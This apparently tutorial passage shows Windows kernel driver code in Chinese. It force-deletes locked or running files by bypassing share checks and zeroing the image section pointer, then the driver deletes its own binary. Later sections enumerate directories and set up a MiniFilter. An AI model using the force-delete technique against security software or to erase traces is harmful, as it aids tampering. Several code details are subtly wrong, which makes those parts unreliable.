Windows中系统中断请求（IRQ）可分为两种，一种外部中断（硬件中断），一种是软件中断（INT3），微软将中断的概念进行了扩展，提出了中断请求级别（IRQL）的概念，其中就规定了32个中断请求级别。

 - 其中0-2级为软中断，顺序由小到大分别是：PASSIVE_LEVEL，APC_LEVEL，DISPATCH_LEVEL
 - 其中27-31为硬中断，顺序由小到大分别是：PROFILE_LEVEL，CLOCK1_LEVEL，CLOCK2_LEVEL，IPI_LEVEL，POWER_LEVEL，HIGH_LEVEL

我们的代码中开头部分`KeGetCurrentIrql() > PASSIVE_LEVEL`则是在判断当前的级别不大于0级，也就是说必须要大于0才可以继续执行。

好开始步入正题，函数`ObReferenceObjectByHandle`需要传入一个文件句柄，而此句柄需要通过`IoCreateFileSpecifyDeviceObjectHint`对其进行初始化，文件系统筛选器驱动程序使用`IoCreateFileSpecifyDeviceObjectHint`函数创建，该函数的微软完整定义如下所示；
```c
NTSTATUS IoCreateFileSpecifyDeviceObjectHint(
  [out]          PHANDLE            FileHandle,               // 指向变量的指针，该变量接收文件对象的句柄。
  [in]           ACCESS_MASK        DesiredAccess,            // 标志的位掩码，指定调用方需要对文件或目录的访问类型。
  [in]           POBJECT_ATTRIBUTES ObjectAttributes,         // 指向已由 InitializeObjectAttributes 例程初始化的OBJECT_ATTRIBUTES结构的指针。
  [out]          PIO_STATUS_BLOCK   IoStatusBlock,            // 指向 IO_STATUS_BLOCK 结构的指针，该结构接收最终完成状态和有关所请求操作的信息。
  [in, optional] PLARGE_INTEGER     AllocationSize,           // 指定文件的初始分配大小（以字节为单位）。
  [in]           ULONG              FileAttributes,           // 仅当文件创建、取代或在某些情况下被覆盖时，才会应用显式指定的属性。
  [in]           ULONG              ShareAccess,              // 指定调用方希望的对文件的共享访问类型（为零或 1，或以下标志的组合）。
  [in]           ULONG              Disposition,              // 指定一个值，该值确定要执行的操作，具体取决于文件是否已存在。
  [in]           ULONG              CreateOptions,            // 指定要在创建或打开文件时应用的选项。
  [in, optional] PVOID              EaBuffer,                 // 指向调用方提供的 FILE_FULL_EA_INFORMATION结构化缓冲区的指针。
  [in]           ULONG              EaLength,                 // EaBuffer 的长度（以字节为单位）。
  [in]           CREATE_FILE_TYPE   CreateFileType,           // 驱动程序必须将此参数设置为 CreateFileTypeNone。
  [in, optional] PVOID              InternalParameters,       // 驱动程序必须将此参数设置为 NULL。
  [in]           ULONG              Options,                  // 指定要在创建请求期间使用的选项。
  [in, optional] PVOID              DeviceObject              // 指向要向其发送创建请求的设备对象的指针。
);
```
当调用`IoCreateFileSpecifyDeviceObjectHint()`函数完成初始化并创建设备后，则下一步就是调用`ObReferenceObjectByHandle()`并传入初始化好的设备句柄到`Handle`参数上，
```c
NTSTATUS ObReferenceObjectByHandle(
  [in]            HANDLE                     Handle,             // 指定对象的打开句柄。
  [in]            ACCESS_MASK                DesiredAccess,      // 指定对对象的请求访问类型。
  [in, optional]  POBJECT_TYPE               ObjectType,         // 指向对象类型的指针。
  [in]            KPROCESSOR_MODE            AccessMode,         // 指定要用于访问检查的访问模式。 它必须是 UserMode 或 KernelMode。
  [out]           PVOID                      *Object,            // 指向接收指向对象正文的指针的变量的指针。
  [out, optional] POBJECT_HANDLE_INFORMATION HandleInformation   // 驱动程序将此设置为 NULL。
);
```
通过调用如上两个函数将权限设置好以后，我们再手动将`ImageSectionObject`也就是映像节对象填充为0，然后再将`DeleteAccess`删除权限位打开，最后调用`ZwDeleteFile()`函数即可实现强制删除文件的效果，其核心代码如下所示；
```c
#include "lyshark.h"

// 强制删除文件
BOOLEAN ForceDeleteFile(UNICODE_STRING pwzFileName)
{
    PEPROCESS pCurEprocess = NULL;
    KAPC_STATE kapc = { 0 };
    OBJECT_ATTRIBUTES fileOb;
    HANDLE hFile = NULL;
    NTSTATUS status = STATUS_UNSUCCESSFUL;
    IO_STATUS_BLOCK iosta;
    PDEVICE_OBJECT DeviceObject = NULL;
    PVOID pHandleFileObject = NULL;


    // 判断中断等级不大于0
    if (KeGetCurrentIrql() > PASSIVE_LEVEL)
    {
        return FALSE;
    }
    if (pwzFileName.Buffer == NULL || pwzFileName.Length <= 0)
    {
        return FALSE;
    }

    __try
    {
        // 读取当前进程的EProcess
        pCurEprocess = IoGetCurrentProcess();

        // 附加进程
        KeStackAttachProcess(pCurEprocess, &kapc);

        // 初始化结构
        InitializeObjectAttributes(&fileOb, &pwzFileName, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

        // 文件系统筛选器驱动程序 仅向指定设备对象下面的筛选器和文件系统发送创建请求。
        status = IoCreateFileSpecifyDeviceObjectHint(&hFile,
            SYNCHRONIZE | FILE_WRITE_ATTRIBUTES | FILE_READ_ATTRIBUTES | FILE_READ_DATA,
            &fileOb,
            &iosta,
            NULL,
            0,
            FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE,
            FILE_OPEN,
            FILE_NON_DIRECTORY_FILE | FILE_SYNCHRONOUS_IO_NONALERT,
            0,
            0,
            CreateFileTypeNone,
            0,
            IO_IGNORE_SHARE_ACCESS_CHECK,
            DeviceObject);
        if (!NT_SUCCESS(status))
        {
            return FALSE;
        }

        // 在对象句柄上提供访问验证，如果可以授予访问权限，则返回指向对象的正文的相应指针。
        status = ObReferenceObjectByHandle(hFile, 0, 0, 0, &pHandleFileObject, 0);
        if (!NT_SUCCESS(status))
        {
            return FALSE;
        }

        // 镜像节对象设置为0
        ((PFILE_OBJECT)(pHandleFileObject))->SectionObjectPointer->ImageSectionObject = 0;

        // 删除权限打开
        ((PFILE_OBJECT)(pHandleFileObject))->DeleteAccess = 1;

        // 调用删除文件API
        status = ZwDeleteFile(&fileOb);
        if (!NT_SUCCESS(status))
        {
            return FALSE;
        }
    }

    _finally
    {
        if (pHandleFileObject != NULL)
        {
            ObDereferenceObject(pHandleFileObject);
            pHandleFileObject = NULL;
        }
        KeUnstackDetachProcess(&kapc);

        if (hFile != NULL || hFile != (PVOID)-1)
        {
            ZwClose(hFile);
            hFile = (PVOID)-1;
        }
    }
    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    UNICODE_STRING local_path;
    UNICODE_STRING file_path;
    BOOLEAN ref = FALSE;
    
    // 初始化被删除文件
    RtlInitUnicodeString(&file_path, L"\\??\\C:\\lyshark.exe");

    // 获取自身驱动文件
    local_path = ((PLDR_DATA_TABLE_ENTRY64)Driver->DriverSection)->FullDllName;

    // 删除lyshark.exe
    ref = ForceDeleteFile(file_path);
    if (ref == TRUE)
    {
        DbgPrint("[+] 已删除 %wZ \n",file_path);
    }

    // 删除WinDDK.sys
    ref = ForceDeleteFile(local_path);
    if (ref == TRUE)
    {
        DbgPrint("[+] 已删除 %wZ \n", local_path);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
编译并运行如上程序，则会分别将`c://lyshark.exe`以及驱动程序自身删除，并输出如下图所示的提示信息；



### 8.3 内核遍历文件或目录

在笔者前一篇文章`《内核文件读写系列函数》`简单的介绍了内核中如何对文件进行基本的读写操作，本章我们将实现内核下遍历文件或目录这一功能，该功能的实现需要依赖于`ZwQueryDirectoryFile`这个内核API函数来实现，该函数可返回给定文件句柄指定的目录中文件的各种信息，此类信息会保存在`PFILE_BOTH_DIR_INFORMATION`结构下，通过遍历该目录即可获取到文件的详细参数，如下将具体分析并实现遍历目录功能。

该功能也是ARK工具的最基本功能，如下图是一款通用ARK工具的文件遍历功能的实现效果；



在概述中提到过，目录遍历的核心是`ZwQueryDirectoryFile()`系列函数，该函数可返回给定文件句柄指定的目录中文件的各种信息，其微软官方定义如下；

ZwQueryDirectoryFile是Windows操作系统中的一个系统调用函数，用于查询目录中的文件信息。具体而言，它可以用来枚举一个目录中的所有文件，并返回每个文件的名称、属性、时间戳等信息。

调用ZwQueryDirectoryFile函数需要指定以下参数：

 - 目录句柄：表示要查询的目录的句柄，可以通过调用ZwOpenFile函数打开目录获取。
 - 文件信息类：表示要返回的文件信息的类型，如文件名、文件大小、文件时间戳等。
 - 文件信息缓冲区：表示存放返回文件信息的缓冲区，其大小必须足够大以容纳查询结果。
 - 缓冲区大小：表示文件信息缓冲区的大小。
 - 是否遍历子目录：指定是否遍历目录中的子目录。
 - 文件名匹配模式：指定查询的文件名模式，支持通配符。
 - 是否返回长文件名：指定是否返回长文件名。
 - 函数执行成功时，将返回STATUS_SUCCESS，同时将文件信息写入文件信息缓冲区中。当返回STATUS_NO_MORE_FILES时，表示目录中没有更多的文件需要枚举。

需要注意的是，使用ZwQueryDirectoryFile函数需要具有足够的权限，并且应该对返回的文件信息进行适当的处理，以避免潜在的安全问题。

```c
NTSYSAPI NTSTATUS ZwQueryDirectoryFile(
  [in]           HANDLE                 FileHandle,            // 返回的文件对象的句柄，表示要为其请求信息的目录。
  [in, optional] HANDLE                 Event,                 // 调用方创建的事件的可选句柄。 
  [in, optional] PIO_APC_ROUTINE        ApcRoutine,            // 请求的操作完成时要调用的可选调用方提供的 APC 例程的地址。
  [in, optional] PVOID                  ApcContext,            // 如果调用方提供 APC 或 I/O 完成对象与文件对象关联，则为调用方确定的上下文区域的可选指针。
  [out]          PIO_STATUS_BLOCK       IoStatusBlock,         // 指向 IO_STATUS_BLOCK 结构的指针，该结构接收最终完成状态和有关操作的信息。
  [out]          PVOID                  FileInformation,       // 指向接收有关文件的所需信息的输出缓冲区的指针。
  [in]           ULONG                  Length,                // FileInformation 指向的缓冲区的大小（以字节为单位）。
  [in]           FILE_INFORMATION_CLASS FileInformationClass,  // 要返回的有关目录中文件的信息类型。
  [in]           BOOLEAN                ReturnSingleEntry,     // 如果只应返回单个条目，则设置为 TRUE ，否则为 FALSE 。
  [in, optional] PUNICODE_STRING        FileName,              // 文件路径
  [in]           BOOLEAN                RestartScan            // 如果扫描是在目录中的第一个条目开始，则设置为 TRUE 。
);
```
该函数我们需要注意`FileInformation`参数，在本例中它被设定为了`PFILE_BOTH_DIR_INFORMATION`用于存储当前节点下文件或目录的一些属性，如文件名，文件时间，文件状态等，其次`FileInformationClass`参数也是有多种选择的，本例中我们需要遍历文件或目录则设置成`FileBothDirectoryInformation`就可以，在循环遍历文件时需要将当前目录.以及上一级目录..排除，而`pDir->FileAttributes`则用于判断当前节点是文件还是目录，属性`FILE_ATTRIBUTE_DIRECTORY`代表是目录，反之则是文件，实现目录文件遍历完整代码如下所示；
```c
#include <ntifs.h>
#include <ntstatus.h>

// 遍历文件夹和文件
BOOLEAN MyQueryFileAndFileFolder(UNICODE_STRING ustrPath)
{
    HANDLE hFile = NULL;
    OBJECT_ATTRIBUTES objectAttributes = { 0 };
    IO_STATUS_BLOCK iosb = { 0 };
    NTSTATUS status = STATUS_SUCCESS;

    // 初始化结构
    InitializeObjectAttributes(&objectAttributes, &ustrPath, OBJ_CASE_INSENSITIVE | OBJ_KERNEL_HANDLE, NULL, NULL);

    // 打开文件得到句柄
    status = ZwCreateFile(&hFile, FILE_LIST_DIRECTORY | SYNCHRONIZE | FILE_ANY_ACCESS,
        &objectAttributes, &iosb, NULL, FILE_ATTRIBUTE_NORMAL, FILE_SHARE_READ | FILE_SHARE_WRITE,
        FILE_OPEN, FILE_DIRECTORY_FILE | FILE_SYNCHRONOUS_IO_NONALERT | FILE_OPEN_FOR_BACKUP_INTENT,
        NULL, 0);
    if (!NT_SUCCESS(status))
    {
        return FALSE;
    }

    // 为节点分配足够的空间
    ULONG ulLength = (2 * 4096 + sizeof(FILE_BOTH_DIR_INFORMATION)) * 0x2000;
    PFILE_BOTH_DIR_INFORMATION pDir = ExAllocatePool(PagedPool, ulLength);

    // 保存pDir的首地址
    PFILE_BOTH_DIR_INFORMATION pBeginAddr = pDir;

    // 获取信息，返回给定文件句柄指定的目录中文件的各种信息
    status = ZwQueryDirectoryFile(hFile, NULL, NULL, NULL, &iosb, pDir, ulLength, FileBothDirectoryInformation, FALSE, NULL, FALSE);
    if (!NT_SUCCESS(status))
    {
        ExFreePool(pDir);
        ZwClose(hFile);
        return FALSE;
    }

    // 遍历
    UNICODE_STRING ustrTemp;
    UNICODE_STRING ustrOne;
    UNICODE_STRING ustrTwo;

    RtlInitUnicodeString(&ustrOne, L".");
    RtlInitUnicodeString(&ustrTwo, L"..");

    WCHAR wcFileName[1024] = { 0 };
    while (TRUE)
    {
        // 判断是否是..上级目录或是.本目录
        RtlZeroMemory(wcFileName, 1024);
        RtlCopyMemory(wcFileName, pDir->FileName, pDir->FileNameLength);

        RtlInitUnicodeString(&ustrTemp, wcFileName);

        // 是否是.或者是..目录
        if ((0 != RtlCompareUnicodeString(&ustrTemp, &ustrOne, TRUE)) && (0 != RtlCompareUnicodeString(&ustrTemp, &ustrTwo, TRUE)))
        {
            // 判断是文件还是目录
            if (pDir->FileAttributes & FILE_ATTRIBUTE_DIRECTORY)
            {
                // 目录
                DbgPrint("[目录] 创建时间: %u | 改变时间: %u 目录名: %wZ \n", pDir->CreationTime, &pDir->ChangeTime, &ustrTemp);
            }
            else
            {
                // 文件
                DbgPrint("[文件] 创建时间: %u | 改变时间: %u | 文件名: %wZ \n", pDir->CreationTime, &pDir->ChangeTime, &ustrTemp);
            }
        }

        // 遍历完毕直接跳出循环
        if (0 == pDir->NextEntryOffset)
        {
            break;
        }

        // 每次都要将pDir指向新的地址
        pDir = (PFILE_BOTH_DIR_INFORMATION)((PUCHAR)pDir + pDir->NextEntryOffset);
    }

    // 释放内存并关闭句柄
    ExFreePool(pBeginAddr);
    ZwClose(hFile);

    return TRUE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动卸载成功 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    // 遍历文件夹和文件
    UNICODE_STRING ustrQueryFile;
    RtlInitUnicodeString(&ustrQueryFile, L"\\??\\C:\\Windows");
    MyQueryFileAndFileFolder(ustrQueryFile);

    DbgPrint("驱动加载成功 \n");
    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
编译如上驱动程序并运行，则会输出`C:\\Windows`目录下的所有文件和目录，以及创建时间和修改时间，输出效果如下图所示；



你是否会觉得很失望，为什么不是递归枚举，这里为大家解释一下，通常情况下ARK工具并不会在内核层实现目录与文件的递归操作，而是将递归过程搬到了应用层，当用户点击一个新目录时，在应用层只需要拼接新的路径再次发送给驱动程序让其重新遍历一份即可，这样不仅可以提高效率而且还降低了蓝屏的风险，显然在应用层遍历是更合理的。

### 8.4 文件微过滤驱动入门

MiniFilter 微过滤驱动是相对于`SFilter`传统过滤驱动而言的，传统文件过滤驱动相对来说较为复杂，且接口不清晰并不符合快速开发的需求，为了解决复杂的开发问题，微过滤驱动就此诞生，微过滤驱动在编写时更简单，多数`IRP`操作都由过滤管理器`(FilterManager或Fltmgr)`所接管，因为有了兼容层，所以在开发中不需要考虑底层`IRP`如何派发，更无需要考虑兼容性问题，用户只需要编写对应的回调函数处理请求即可，这极大的提高了文件过滤驱动的开发效率。

接下来将进入正题，讲解微过滤驱动的API定义规范以及具体的使用流程，并最终实现一个简单的过滤功能，首先你必须在VS上做如下配置，依次打开配置菜单，并增加驱动头文件。

 - 配置属性 > 连接器 > 输入> 附加依赖 > fltMgr.lib
 - 配置属性 > C/C++ > 常规 > 设置 关闭所有警告 (警告视为错误关闭)

未过滤驱动的使用非常容易，在使用之前第一件事就是要向过滤管理器宣告我们的微过滤驱动的存在，我们以`DriverEntry`入口函数为例，首先在入口处需要使用`FltRegisterFilter`函数注册一个过滤器组件，另外则需要通过`FltStartFiltering`开启过滤功能，而当我们想要关闭时则需要调用`FltUnregisterFilter`注销过滤组件，首先来看一下入口处是如何初始化的；
```c
NTSTATUS DriverEntry(_In_ PDRIVER_OBJECT DriverObject, _In_ PUNICODE_STRING RegistryPath)
{
    NTSTATUS status;

    DbgPrint("Hello LyShark.com \n");

    // FltRegisterFilter 向过滤管理器注册过滤器
    // 参数1：本驱动驱动对象
    // 参数2：微过滤驱动描述结构
    // 参数3：返回注册成功的微过滤驱动句柄
    status = FltRegisterFilter(DriverObject, &FilterRegistration, &gFilterHandle);
    if (NT_SUCCESS(status))
    {
        // 开启过滤
        status = FltStartFiltering(gFilterHandle);
        DbgPrint("[过滤器] 开启监控.. \n");

        if (!NT_SUCCESS(status))
        {
            // 如果启动失败,则取消注册并退出
            FltUnregisterFilter(gFilterHandle);
            DbgPrint("[过滤器] 取消注册.. \n");
        }
    }
    return status;
}
```
如上代码中我们最需要关注的是`FltRegisterFilter`函数的第二个参数`FilterRegistration`它用于宣告注册信息，这个结构内包含了过滤器的所有信息，想要注册成功则我们必须更具要求正确的填写`FLT_REGISTRATION`微过滤器注册结构，该结构体的微软定义如下所示；
```c
typedef struct _FLT_REGISTRATION {
  USHORT                                      Size;
  USHORT                                      Version;
  FLT_REGISTRATION_FLAGS                      Flags;
  const FLT_CONTEXT_REGISTRATION              *ContextRegistration;
  const FLT_OPERATION_REGISTRATION            *OperationRegistration;
  PFLT_FILTER_UNLOAD_CALLBACK                 FilterUnloadCallback;
  PFLT_INSTANCE_SETUP_CALLBACK                InstanceSetupCallback;
  PFLT_INSTANCE_QUERY_TEARDOWN_CALLBACK       InstanceQueryTeardownCallback;
  PFLT_INSTANCE_TEARDOWN_CALLBACK             InstanceTeardownStartCallback;
  PFLT_INSTANCE_TEARDOWN_CALLBACK             InstanceTeardownCompleteCallback;
  PFLT_GENERATE_FILE_NAME                     GenerateFileNameCallback;
  PFLT_NORMALIZE_NAME_COMPONENT               NormalizeNameComponentCallback;
  PFLT_NORMALIZE_CONTEXT_CLEANUP              NormalizeContextCleanupCallback;
  PFLT_TRANSACTION_NOTIFICATION_CALLBACK      TransactionNotificationCallback;
  PFLT_NORMALIZE_NAME_COMPONENT_EX            NormalizeNameComponentExCallback;
  PFLT_SECTION_CONFLICT_NOTIFICATION_CALLBACK SectionNotificationCallback;
} FLT_REGISTRATION, *PFLT_REGISTRATION;
```
当然如上的这些字段并非都要去填充，我们只需要填充自己所需要的部分即可，例如我们代码中只填充了如下这些必要的部分，其他部分可以省略掉，当使用如下结构体注册时，只要实例发生了变化就会根据如下配置路由到不同的函数上面做处理。
```c
// 过滤驱动数据结构
CONST FLT_REGISTRATION FilterRegistration =
{
    sizeof(FLT_REGISTRATION),         //  结构大小(默认)
    FLT_REGISTRATION_VERSION,           //  结构版本(默认)
    0,                                  //  过滤器标志
    NULL,                               //  上下文
    Callbacks,                          //  注册回调函数集
    Unload,                             //  驱动卸载函数
    InstanceSetup,                      //  实例安装回调函数
    InstanceQueryTeardown,              //  实例销毁回调函数
    InstanceTeardownStart,              //  实例解除绑定时触发
    InstanceTeardownComplete,           //  实例解绑完成时触发
    NULL,                               //  GenerateFileName
    NULL,                               //  GenerateDestinationFileName
    NULL                                //  NormalizeNameComponent
};
```
如上结构中我们最需要注意的是`Callbacks`字段，该字段是操作回调函数集注册，我们对文件的各种操作的回调事件都会被写入到此处，而此处我们只需要增加我们所需要的回调事件即可，以`IRP_MJ_CREATE`为例，后面紧跟的是`PreOperation`事前回调，以及`PostOperation`事后回调，一般在要进行监控时通常在`PreOperation()`回调中处理，如果时监视则一般在`PostOperation()`中处理。
```c
// 回调函数集
CONST FLT_OPERATION_REGISTRATION Callbacks[] =
{
    // 创建时触发 PreOperation(之前回调函数) / PostOperation(之后回调函数)
    { IRP_MJ_CREATE, 0, PreOperation, PostOperation },
    // 读取时触发
    { IRP_MJ_READ, 0, PreOperation, PostOperation },
    // 写入触发
    { IRP_MJ_WRITE, 0, PreOperation, PostOperation },
    // 设置时触发
    { IRP_MJ_SET_INFORMATION, 0, PreOperation, PostOperation },
    // 结束标志
    { IRP_MJ_OPERATION_END }
};
```
如下完整代码实现了监视当前系统下所有的文件操作，如创建，读取，写入，修改，加载后则会监视系统下所有的文件操作，当然如果是监控则需要在`PreOperation`事前回调做文章，而如果仅仅只是监视则事前事后都是可以的。
```c
#include <fltKernel.h>
#include <dontuse.h>
#include <suppress.h>

PFLT_FILTER gFilterHandle;

// ----------------------------------------------------------------------------------------
// 声明部分
// ----------------------------------------------------------------------------------------
DRIVER_INITIALIZE DriverEntry;
NTSTATUS DriverEntry(
    _In_ PDRIVER_OBJECT DriverObject,
    _In_ PUNICODE_STRING RegistryPath
    );

NTSTATUS
InstanceSetup(
_In_ PCFLT_RELATED_OBJECTS FltObjects,
_In_ FLT_INSTANCE_SETUP_FLAGS Flags,
_In_ DEVICE_TYPE VolumeDeviceType,
_In_ FLT_FILESYSTEM_TYPE VolumeFilesystemType
);

VOID
InstanceTeardownStart(
_In_ PCFLT_RELATED_OBJECTS FltObjects,
_In_ FLT_INSTANCE_TEARDOWN_FLAGS Flags
);

VOID
InstanceTeardownComplete(
_In_ PCFLT_RELATED_OBJECTS FltObjects,
_In_ FLT_INSTANCE_TEARDOWN_FLAGS Flags
);

NTSTATUS
Unload(
_In_ FLT_FILTER_UNLOAD_FLAGS Flags
);

NTSTATUS
InstanceQueryTeardown(
_In_ PCFLT_RELATED_OBJECTS FltObjects,
_In_ FLT_INSTANCE_QUERY_TEARDOWN_FLAGS Flags
);

FLT_PREOP_CALLBACK_STATUS
PreOperation(
_Inout_ PFLT_CALLBACK_DATA Data,
_In_ PCFLT_RELATED_OBJECTS FltObjects,
_Flt_CompletionContext_Outptr_ PVOID *CompletionContext
);
FLT_POSTOP_CALLBACK_STATUS
PostOperation(
_Inout_ PFLT_CALLBACK_DATA Data,
_In_ PCFLT_RELATED_OBJECTS FltObjects,
_In_opt_ PVOID CompletionContext,
_In_ FLT_POST_OPERATION_FLAGS Flags
);

// ----------------------------------------------------------------------------------------
// 回调函数
// ----------------------------------------------------------------------------------------

// 当实例被安装时触发
NTSTATUS InstanceSetup(_In_ PCFLT_RELATED_OBJECTS FltObjects, _In_ FLT_INSTANCE_SETUP_FLAGS Flags, _In_ DEVICE_TYPE VolumeDeviceType, _In_ FLT_FILESYSTEM_TYPE VolumeFilesystemType)
{
    DbgPrint("[LyShark] 安装 MiniFilter \n");
    return STATUS_SUCCESS;
}

// 当实例被销毁时触发
NTSTATUS InstanceQueryTeardown(_In_ PCFLT_RELATED_OBJECTS FltObjects, _In_ FLT_INSTANCE_QUERY_TEARDOWN_FLAGS Flags)
{
    DbgPrint("[LyShark] 销毁 MiniFilter \n");
    return STATUS_SUCCESS;
}

// 实例解除绑定时触发
VOID InstanceTeardownStart(_In_ PCFLT_RELATED_OBJECTS FltObjects, _In_ FLT_INSTANCE_TEARDOWN_FLAGS Flags)
{
    DbgPrint("[LyShark] 解绑 MiniFilter \n");
    return STATUS_SUCCESS;
}

// 实例解绑完成时触发
VOID InstanceTeardownComplete(_In_ PCFLT_RELATED_OBJECTS FltObjects, _In_ FLT_INSTANCE_TEARDOWN_FLAGS Flags)
{
    DbgPrint("[LyShark] 解绑完成 MiniFilter \n");
    return STATUS_SUCCESS;
}

// 驱动关闭时卸载监控
NTSTATUS Unload(_In_ FLT_FILTER_UNLOAD_FLAGS Flags)
{
    DbgPrint("[LyShark] 卸载 MiniFilter \n");
    FltUnregisterFilter(gFilterHandle);
    return STATUS_SUCCESS;
}

// 回调函数集
CONST FLT_OPERATION_REGISTRATION Callbacks[] =
{
    // 创建时触发 PreOperation(之前回调函数) / PostOperation(之后回调函数)
    { IRP_MJ_CREATE, 0, PreOperation, PostOperation },
    // 读取时触发
    { IRP_MJ_READ, 0, PreOperation, PostOperation },
    // 写入触发
    { IRP_MJ_WRITE, 0, PreOperation, PostOperation },
    // 设置时触发
    { IRP_MJ_SET_INFORMATION, 0, PreOperation, PostOperation },
    // 结束标志
    { IRP_MJ_OPERATION_END }
};

// 过滤驱动数据结构
CONST FLT_REGISTRATION FilterRegistration =
{
    sizeof(FLT_REGISTRATION),           //  结构大小(默认)
    FLT_REGISTRATION_VERSION,           //  结构版本(默认)
    0,                                  //  过滤器标志
    NULL,                               //  上下文
    Callbacks,                          //  注册回调函数集
    Unload,                             //  驱动卸载函数
    InstanceSetup,                      //  实例安装回调函数
    InstanceQueryTeardown,              //  实例销毁回调函数
    InstanceTeardownStart,              //  实例解除绑定时触发
    InstanceTeardownComplete,           //  实例解绑完成时触发
    NULL,                               //  GenerateFileName
    NULL,                               //  GenerateDestinationFileName
    NULL                                //  NormalizeNameComponent
};

// ----------------------------------------------------------------------------------------
// 功能函数
// ----------------------------------------------------------------------------------------

// 预操作回调函数(在执行过滤操作之前先执行此处)
FLT_PREOP_CALLBACK_STATUS PreOperation(_Inout_ PFLT_CALLBACK_DATA Data, _In_ PCFLT_RELATED_OBJECTS FltObjects, _Flt_CompletionContext_Outptr_ PVOID *CompletionContext)
{
    NTSTATUS status;

    // 获取文件路径
    UCHAR MajorFunction = Data->Iopb->MajorFunction;
    PFLT_FILE_NAME_INFORMATION lpNameInfo = NULL;

    // 得到文件名相关信息
    status = FltGetFileNameInformation(Data, FLT_FILE_NAME_NORMALIZED | FLT_FILE_NAME_QUERY_DEFAULT, &lpNameInfo);
    if (NT_SUCCESS(status))
    {
        status = FltParseFileNameInformation(lpNameInfo);
        if (NT_SUCCESS(status))
        {
            // 创建
            if (IRP_MJ_CREATE == MajorFunction)
            {
                DbgPrint("[创建文件时] %wZ", &lpNameInfo->Name);

                // 拒绝创建
                // STATUS_INSUFFICIENT_RESOURCES                 提示不是有效的资源
                // STATUS_ACCESS_DISABLED_NO_SAFER_UI_BY_POLICY  静默拒绝
                // STATUS_ACCESS_DENIED                          提示访问拒绝
                // return STATUS_ACCESS_DENIED;
                // return FLT_PREOP_COMPLETE;
            }
            // 读取
            else if (IRP_MJ_READ == MajorFunction)
            {
                DbgPrint("[读取文件时] %wZ", &lpNameInfo->Name);
                // return FLT_PREOP_COMPLETE;
            }
            // 文件写入
            else if (IRP_MJ_WRITE == MajorFunction)
            {
                DbgPrint("[写入文件时] %wZ", &lpNameInfo->Name);
                // return FLT_PREOP_COMPLETE;
            }
            // 修改文件信息
            else if (IRP_MJ_SET_INFORMATION == MajorFunction)
            {
                DbgPrint("[修改文件] %wZ", &lpNameInfo->Name);
                // return FLT_PREOP_COMPLETE;
            }
        }
    }
    return FLT_PREOP_SUCCESS_WITH_CALLBACK;
}

// 后操作回调函数 (在执行过滤之后运行此处)
FLT_POSTOP_CALLBACK_STATUS PostOperation(_Inout_ PFLT_CALLBACK_DATA Data, _In_ PCFLT_RELATED_OBJECTS FltObjects, _In_opt_ PVOID CompletionContext, _In_ FLT_POST_OPERATION_FLAGS Flags)
{
    return FLT_POSTOP_FINISHED_PROCESSING;
}

// ----------------------------------------------------------------------------------------
// 入口函数
// ----------------------------------------------------------------------------------------
NTSTATUS DriverEntry(_In_ PDRIVER_OBJECT DriverObject, _In_ PUNICODE_STRING RegistryPath)
{
    NTSTATUS status;

    DbgPrint("Hello LyShark.com \n");

    // FltRegisterFilter 向过滤管理器注册过滤器
    // 参数1：本驱动驱动对象
    // 参数2：微过滤驱动描述结构
    // 参数3：返回注册成功的微过滤驱动句柄
    status = FltRegisterFilter(DriverObject, &FilterRegistration, &gFilterHandle);
    if (NT_SUCCESS(status))
    {
        // 开启过滤
        status = FltStartFiltering(gFilterHandle);
        DbgPrint("[过滤器] 开启监控.. \n");

        if (!NT_SUCCESS(status))
        {
            // 如果启动失败,则取消注册并退出
            FltUnregisterFilter(gFilterHandle);
            DbgPrint("[过滤器] 取消注册.. \n");
        }
    }
    return status;
}
```
过滤驱动的安装方式有多种，可以通过函数注册或者使用INF文件像系统注册驱动，首先以INF为例安装，通过修改INF中的`ServiceName`以及`DriverName`并将其改为`WinDDK`，将文件保存为`install.inf`鼠标右键选择安装即可。
```c
[Version]
Signature   = "$Windows NT$"     
Class       = "ActivityMonitor"  ;指明了驱动的分组,必须指定.
ClassGuid   = {b86dff51-a31e-4bac-b3cf-e8cfe75c9fc2}  ;GUID 每个分组都有固定的GUID
Provider    = %Msft% ;变量值 从STRING节中可以看到驱动提供者的名称 
DriverVer   = 06/16/2007,1.0.0.1 ;版本号
CatalogFile = passthrough.cat    ;inf对应的cat 文件 可以不需要

[DestinationDirs]
DefaultDestDir          = 12    ;告诉我们驱动拷贝到哪里 13代表拷贝到%windir%
MiniFilter.DriverFiles  = 12            ;%windir%\system32\drivers

[DefaultInstall]
OptionDesc          = %ServiceDescription%
CopyFiles           = MiniFilter.DriverFiles

[DefaultInstall.Services]
AddService          = %ServiceName%,,MiniFilter.Service

[DefaultUninstall]
DelFiles   = MiniFilter.DriverFiles

[DefaultUninstall.Services]
DelService = %ServiceName%,0x200      ;Ensure service is stopped before deleting

[MiniFilter.Service]                 ;服务的一些信息
DisplayName      = %ServiceName%
Description      = %ServiceDescription%
ServiceBinary    = %12%\%DriverName%.sys        ;%windir%\system32\drivers\
Dependencies     = "FltMgr"                     ;服务的依赖
ServiceType      = 2                            ;SERVICE_FILE_SYSTEM_DRIVER
StartType        = 3                            ;SERVICE_DEMAND_START
ErrorControl     = 1                            ;SERVICE_ERROR_NORMAL
LoadOrderGroup   = "FSFilter Activity Monitor"  ;文件过滤分组
AddReg           = MiniFilter.AddRegistry       ;文件过滤注册表需要添加的高度值等信息

[MiniFilter.AddRegistry]
HKR,,"DebugFlags",0x00010001 ,0x0
HKR,"Instances","DefaultInstance",0x00000000,%DefaultInstance%
HKR,"Instances\"%Instance1.Name%,"Altitude",0x00000000,%Instance1.Altitude%
HKR,"Instances\"%Instance1.Name%,"Flags",0x00010001,%Instance1.Flags%

[MiniFilter.DriverFiles]
%DriverName%.sys

[SourceDisksFiles]
